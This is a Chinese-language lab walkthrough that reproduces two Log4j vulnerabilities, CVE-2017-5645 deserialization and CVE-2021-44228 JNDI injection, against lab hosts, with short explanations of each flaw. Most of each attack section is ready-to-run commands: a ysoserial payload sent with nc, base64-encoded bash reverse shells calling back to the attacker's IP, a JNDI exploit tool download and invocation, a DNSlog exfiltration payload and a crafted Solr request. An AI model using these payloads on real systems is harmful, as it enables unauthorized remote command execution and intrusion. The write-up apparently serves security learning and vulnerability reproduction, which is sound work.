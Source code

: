 # Log4j(CVE-2017-5645)

> 反序列化漏洞

### 环境搭建

![image-20241022011021721](./assets/image-20241022011021721.png)

- 靶机:`192.168.2.254:4712`
- 攻击机:`192.168.2.13`
- jdk 1.8

- 扫描确定端口是否正常开启,否则白忙活

<img src="./assets/image-20241022011240753.png" alt="image-20241022011240753" style="zoom: 50%;" />

- 下载`Ysoserial.jar`
- https://www.123pan.com/s/H4C6Vv-MGBjh.html提取码:GGBD

### 漏洞复现

- ysoserial生成paylaod发送

```bash
java -jar ysoserial.jar CommonsCollections5 "touch /tmp/success" | nc 192.168.2.254 4712
```

![image-20241022015946843](./assets/image-20241022015946843.png)

![image-20241022015908471](./assets/image-20241022015908471.png)

- 这里不知道是什么原因,虽然没有成功创建处success,但是创建了一个`1`的文件时间是对的上的,说明存在远程命令执行
- 那么开始尝试反弹shell

```bash
#在线编码
http://www.hiencode.com/base64.html
#对反弹shell进行编码
sh -i >& /dev/tcp/192.168.2.13/8888 0>&1
#得到
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==
#写命令
bash -c "{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" | nc 192.168.117.130 4712
```

- 开启监听

```bash
nc -lvvp 8888
```

![image-20241022021102350](./assets/image-20241022021102350.png)

- 执行命令

```bash
bash -c "{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" | nc 192.168.117.130 4712
```

![image-20241022021143291](./assets/image-20241022021143291.png)

- 反弹成功

![image-20241022021202900](./assets/image-20241022021202900.png)

### 漏洞原理

- 概念:`Apache log4j`是一个用于java的`日志记录库`,支持启动远程日志服务
- 原理:以tcp为例,传入的`inputsstream`,没有`过滤`被包装为`ObjectInputStream`,传给`logEvents`后执行了`readObject()`进行反序列化

****

# Log4j(CVE-2021-44228)

> 远程命令执行

### 环境搭建

![image-20241022085541408](./assets/image-20241022085541408.png)

- 靶机:`192.168.2.254`
- 攻击机:`192.168.2.14`
- 需要用到`DNSlog`数据外带
- 访问:`http://192.168.2.254:8983/admin/cores?action=1`–>这里为什么要访问这个目录呢?
- 原因:根据官方文档

### 漏洞验证

![image-20241022093930984](./assets/image-20241022093930984.png)

- 我们传参数看看有什么效果

![image-20241022094059175](./assets/image-20241022094059175.png)

### 开始攻击

![image-20241022102102190](./assets/image-20241022102102190.png)

```json
# 是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：
?action=${jndi:ldap://${sys:java.version}.ri708t.dnslog.cn}
```

- DNS有数据被带出来说明存在`命令执行漏洞`
- 下载工具,准备攻击

```bash
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```

![image-20241022095253545](./assets/image-20241022095253545.png)

```bash
# 反弹shell
bash -i >& /dev/tcp/192.168.2.14/8888 0>&1
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTQvODg4OCAwPiYx
# 工具调用
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.2.14
```

![image-20241022103210893](./assets/image-20241022103210893.png)

- 与此同时再打开一个终端,监听`8888`端口

```bash
nc -lvnp 8888
```

- 将 `ldap://192.168.2.14:1389/2w5fqu`复制过来

```http
http://192.168.2.254:8983/solr/admin/cores?action=${jndi:ldap://192.168.2.14:1389/2w5fqu}
```

![image-20241022103404646](./assets/image-20241022103404646.png)

- 成功反弹

![image-20241022103459572](./assets/image-20241022103459572.png)

### 原理

- 当用户输入信息时,应用程序中的log4j2组件会将信息记录到日志中,假如日志中存在语句`{jnid:rmi://xxxx.dnslog.cn/bug}`,log4j就会去解析信息
- 通过`jndi`的`lookup()`方法去解析该url,解析到`rmi`就回去rmi中找一个叫bug的资源,找不到就会去http服务中找
- 在http服务中找到shell之后,会将资源信息返回给应用程序的log4j组件,而log4j组件就会下载下来,发现bug是个`.class`文件,就会执行里面的代码,攻击者可以通过shell实现任意命令执行

